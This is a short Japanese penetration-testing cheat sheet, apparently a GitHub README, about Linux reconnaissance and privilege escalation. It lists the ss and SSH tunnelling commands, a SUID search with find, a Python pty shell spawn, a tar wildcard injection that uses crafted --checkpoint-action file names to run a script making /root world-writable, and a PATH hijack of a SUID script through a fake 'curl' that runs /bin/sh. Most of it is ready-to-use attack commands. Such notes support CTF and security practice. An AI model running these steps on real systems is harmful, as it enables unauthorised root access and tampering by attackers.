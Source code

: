 ### TCP/UDPのポート開放状態を確認したいとき  
#### ss -nltup  
-n : ポート番号をサービス名変換しない(例えば:httpと表示せず:80と表示する)  
-l : Listen(待ち受け)ポートのみを表示する  
-t : TCP を表示する  
-u : UDP を表示する  
-p を付けて "ss -nltup" を実行すると、どのプロセスがそのポートを開放しているのかが分かります。  

### SSHのファイヤーウォールを超えて外部から目的サーバにアクセスする  
SSH の機能の内の一つであるポートフォワーディングを使ってトンネルを掘ることによって, ファイヤーウォールを超えて外部から目的サーバにアクセスすることができる  
```$ ssh -L (ローカルで使用するポート):(目的サーバのアドレス):(目的サーバで待ち受けてるポート番号) ユーザ名@IPアドレス```  

### SUIDの探索
``` find / -perm -u=s -type f 2>/dev/null ```  
  
### シェル起動  
``` python -c 'import pty;pty.spawn("/bin/bash")' ```  
なお、permission deniedでlinpeasをアップできない場合は、/tmp上でwgetするとささる  

### ワイルドカードの脆弱性  
chown , tar , rsyncなどで特定のオプションを使用することで顕在化する可能性がある  
特別に細工されたファイル名を使用することで、  
攻撃者は、他のユーザー(rootも含む)が実行するシェルコマンドに任意の引数を注入することができる。  
#### tarの任意コマンド実行によるポイズニング  
・-checkpoint[=NUMBER]  
・-checkpoint-action=ACTION  
これらのオプションはチェックポイント(NUMBER , ACTION)後に  
指定されたアクションを使用することができる  
→ワイルドカードインジェクションに繋がる！  
  
例:  
``` --checkpoint=1 ```  
``` –-checkpoint-action=exec=sh shell.sh ```  
shell.shのプログラムは以下  
``` chmod 777 /root ```  


  
### フルパスでないコマンドが入っているSUIDなシェルスクリプトから権限昇格する
例えば以下のようなコマンドを実行するシェルスクリプト(/usr/bin/menu)があったとする
```curl -I localhost```

1."/bin/sh"という文字列をcurlというファイルに出力する
2.生成されたcurlファイルに対してchmodで777にしてあげる
3.環境パスを現在のディレクトリにする
4.脆弱性のあるシェルスクリプトを実行すると権限昇格

以下が権限昇格の具体的な手順
```
echo /bin/sh > curl
chmod 777 curl
export PATH=現在のディレクトリ:$PATH
/usr/bin/menu
```
